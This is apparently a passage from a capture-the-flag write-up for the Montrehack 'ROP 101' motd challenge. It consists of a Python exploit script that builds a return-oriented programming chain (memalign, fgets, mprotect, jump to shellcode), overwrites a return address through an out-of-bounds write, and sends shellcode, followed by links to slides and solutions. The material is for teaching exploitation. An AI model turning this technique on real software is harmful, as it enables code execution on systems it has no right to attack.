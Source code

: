 ```python
ROP = [
        # PIVOT RSP
        PAD, PAD, PAD, # pop {r13, r14, r15}:

        # memalign(rdi=align, rsi=size) call
        RSI, # rsi=BUFLEN
        BUFLEN,
        PAD, # pop r15
        RDI, # rdi=ALIGN
        ALIGN,
        MEMALIGN,
        RAX, #  SWAP RDI and RAX

        # fgets(rdi=buf, rsi=BUFLEN, rdx=stdin) call
        RBP, # rdx=stdin (dereference gadget is [rbp - 4] so add 4)
        STDIN + 4,
        FD,

        RSI, # rsi=BUFLEN
        BUFLEN,
        PAD, # pop r15
        FGETS, # ret to fgets

        # mprotect(rdi=buf, rsi=0x7, rdx=5)
        RAX,
        RSI, # rdx=0
        0x7, # PROT_READ | PROT_EXEC | WRITE
        PAD, # pop r15
        RDX,
        RSI,
        BUFLEN,
        PAD, # pop r15
        MPROTECT, # ret to mprotect

        # Jump to shellcode
        RAX, # xchg rax, rdi (shellcode address is in rdi)
        JMP  # jmp rax
]

PAYLOAD = ''.join([ q(gadget) for gadget in ROP ])

p = process(TARGET)

p.sendline("2") # Option 2: Set motd
p.sendline("1") # First motd
p.sendline(PAYLOAD) # Set the motd buffer to ROP chain


p.sendline("3") # Option 3: Rate motd
p.sendline("0") # Out-of-Bound Write on top of return address

p.sendline(str(RSP)) # Set return address to pivot gadget.
p.sendline(SHELLCODE) # Send shellcode for fgets
print p.readall()
```


[1]: https://segfault.me/2019/03/03/montrehack-writeups-motd-v0-1/ "Write-up for motd_v0.1"
[2]: https://segfault.me/2019/04/20/montrehack-writeups-motd-v0-2/ "Write-up for motd_v0.2"
[m]: https://montrehack.ca "Montrehack Official Website"
[src]: https://github.com/alxbl/montrehack-rop101 "ROP 101: Sources & Solutions"
[man]: http://man7.org/linux/man-pages/man2/mprotect.2.html "Manual Pages for mprotect"
[presentation]: https://www.twitch.tv/videos/384854978 "Presentation of Slides"
[solutions]: https://www.twitch.tv/videos/384854977 "Presentation of Solutions"
[slides]: https://github.com/alxbl/montrehack-rop101/blob/master/slides_final.pdf "Slides PDF"